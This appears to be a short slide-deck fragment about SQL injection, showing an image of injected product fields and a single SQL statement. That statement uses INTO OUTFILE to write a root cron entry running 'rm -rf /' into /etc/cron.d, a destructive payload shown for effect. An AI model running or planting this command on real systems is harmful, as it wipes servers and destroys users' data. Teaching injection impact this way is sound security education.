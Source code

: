 

---



![bg fit](./images/product-injected-fields.png)



---

```SQL
SELECT '* * * * * root rm -rf /' INTO outfile /etc/cron.d/bad
```



---

# 😱 

